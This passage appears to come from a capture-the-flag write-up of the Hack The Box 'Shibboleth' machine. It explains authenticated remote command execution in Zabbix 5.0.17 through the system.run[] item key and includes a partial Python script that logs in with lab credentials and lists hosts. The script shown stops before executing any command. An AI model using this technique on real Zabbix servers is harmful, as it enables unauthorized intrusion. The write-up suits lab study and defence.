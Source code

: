 Create new item and set payload in key option and click on "test" and then "get value and test" to execute command immediately

![](/assets/img/posts/shibboleth/zabbix-rce.png)


**Here is a simple python script to automate this process**
```py
#!/usr/bin/python3

"""
Application: zabbix 5.0.17
Description: zabbix authenticated RCE through "system.run[]"
"""

import re
import sys
import requests as r
import json

# print("/** Author: x00tex **/")
url = 'http://zabbix.shibboleth.htb'
username = 'Administrator'
password = 'ilovepumkinpie1'

s = r.session()
login = s.post(f'{url}/index.php',
               data={"name": username, "password": password, "autologin": 1, "enter": "Sign in"})


class Get_host:
    def __init__(self):
        rspn = s.get(f'{url}/hosts.php')
        self.hostid = re.findall(r'hostid=(.*?)">(.*?)</a>', rspn.text)
        self.sid = re.findall(r'sid=(.*?)\'', rspn.text)


def get_values():
    return Get_host()


t = get_values()
print("[+] All Hosts")
for i in t.hostid:
    print(f"{i[1]}:{i[0]}")

```